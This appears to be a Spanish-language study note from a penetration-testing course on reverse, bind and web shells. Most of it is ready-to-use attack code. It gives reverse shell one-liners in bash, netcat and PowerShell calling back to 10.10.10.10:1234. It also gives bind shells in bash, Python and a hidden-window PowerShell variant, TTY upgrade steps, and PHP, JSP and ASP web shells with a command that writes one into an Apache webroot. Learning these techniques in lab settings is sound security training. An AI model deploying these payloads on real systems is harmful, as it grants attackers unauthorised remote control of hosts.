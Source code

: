 Reverse Shell, Bind Shell, and Web Shell

|                 |                                                                                                                                 |     |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------- | --- |
| `Reverse Shell` | Se conecta de nuevo a nuestro sistema y nos da el control a través de una conexión inversa.                                     |     |
| `Bind Shell`    | Espera a que nos conectemos a él y nos da el control una vez que lo hacemos.                                                    |     |
| `Web Shell`     | se comunica a través de un servidor web, acepta nuestros comandos a través de parámetros HTTP, los ejecuta e imprime la salida. | ##  |

## Reverse Shell
es el tipo de shell más común, ya que es el método más rápido y fácil para obtener el control sobre un host comprometido.

#reverse_shell 
#### Pasos para activar una reverse shell
###### Oyente de Netcat

El primer paso es iniciar un oyente en un puerto de nuestra elección:`netcat`


```shell-session
ougicami@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

|Bandera|Descripción|
|---|---|
|`-l`|Modo de escucha, para esperar a que una conexión se conecte con nosotros.|
|`-v`|Modo detallado, para que sepamos cuándo recibimos una conexión.|
|`-n`|Deshabilite la resolución DNS y solo conéctese desde/hacia IP, para acelerar la conexión.|
|`-p 1234`|El número de puerto está escuchando y se debe enviar la conexión inversa.`netcat`|
```shell-session
ip a
``` 
para ver nuesrta ip

activar la reverse shell depende del sistema operativo  del host en cuestion y de las aplcaiciones o comando a los que se puede acceder en la sigueitne apgina hay una lsita de comandos de reverse shells  [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) #reverse_shell 

#### reverse shell 

Code: bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Code: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

#### bind shell 
#bind_shell

esta es como la reverse shell al revez, la maquina atacada es la que libera un peurto de escucha y nosotros nos conectamos a ella
Código: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Código: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Código: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

y nos conectamos asi 
```shell-session
ougicami@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### TTY 
Al conectarnos a una shell a través de Netcat, notaremos que solo podemos escribir comandos o usar la tecla de retroceso, pero no podemos mover el cursor de texto para editar nuestros comandos ni acceder al historial de comandos. Para solucionar esto, necesitamos "mejorar" nuestra TTY. Esto se puede lograr mapeando nuestra TTY de terminal con la TTY remota.

### Método de Mejora de TTY con Python y stty

Hay varios métodos para mejorar la TTY, pero en este caso, utilizaremos el método de Python/stty. Aquí están los pasos:

1. **Usar Python para mejorar la shell**:
```shell-session
ougicami@htb[/htb]$ python -c 'import pty; pty.spawn("/bin/bash")'
```

Este comando ejecuta un script de Python que importa la biblioteca `pty` y genera una nueva shell de Bash, mejorando la funcionalidad de la TTY.
    
2. **Poner la shell en segundo plano**:
    
    Presiona `Ctrl + Z` para suspender la shell y regresar a la terminal local.
    
3. **Configurar la terminal local**:
    
```shell-session
www-data@remotehost$ ^Z

ougicami@htb[/htb]$ stty raw -echo
ougicami@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```
    - `stty raw -echo`: Configura la terminal para que no interprete caracteres especiales y desactiva el eco, lo que significa que la terminal no mostrará lo que escribes.
    - `fg`: Trae la shell de Netcat nuevamente al primer plano.
4. **Restablecer la shell**:
    
    - Después de ejecutar `fg`, la terminal puede mostrar una línea en blanco. Presiona `Enter` para regresar a la shell o escribe `reset` y presiona `Enter`.
5. **Ajustar la terminal para que use el tamaño completo**:
    
    - **Obtener las variables necesarias**:
        
```shell-session
ougicami@htb[/htb]$ echo $TERM

xterm-256color
```
   - `echo $TERM`: Muestra el tipo de terminal (por ejemplo, `xterm-256color`).
   ```shell-session
ougicami@htb[/htb]$ stty size

67 318
```

   - `stty size`: Muestra el número de filas y columnas de la terminal.
    - **Establecer las variables en la shell de Netcat**:
    ```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```
- `export TERM=xterm-256color`: Configura el tipo de terminal en la shell de Netcat.
- `stty rows 67 columns 318`: Ajusta las filas y columnas para que coincidan con el tamaño de la terminal local.

### Web Shell

Código: php

```php
<?php system($_REQUEST["cmd"]); ?>
```

Código: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Código: asp

```asp
<% eval request("cmd") %>
```

Una vez que tenemos nuestro shell web, necesitamos colocar nuestro script de shell web en el directorio web del host remoto esto puede ser a través de una vulnerabilidad en una función de carga, que nos permitiría escribir uno de nuestros shells en un archivo, es decir. y cargarlo, y luego acceder a nuestro archivo cargado para ejecutar comandos.

#### raices web de servidores comunes

| Servidor web | Webroot predeterminado |     |
| ------------ | ---------------------- | --- |
| `Apache`     | /var/www/html/         |     |
| `Nginx`      | /usr/local/nginx/html/ |     |
| `IIS`        | c:\inetpub\wwwroot\|   |     |
| `XAMPP`      | C:\xampp\htdocs\|      |     |
Podemos verificar estos directorios para ver qué webroot está en uso y luego usarlos para escribir nuestro shell web. Por ejemplo, si estamos atacando un host Linux ejecutando Apache, podemos escribir un shell con el siguiente comando:`echo``PHP`


```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

luego podemos buscar apra ejecutar el archivo con la ruta
http://SERVER_IP:PORT/shell.php?cmd=id
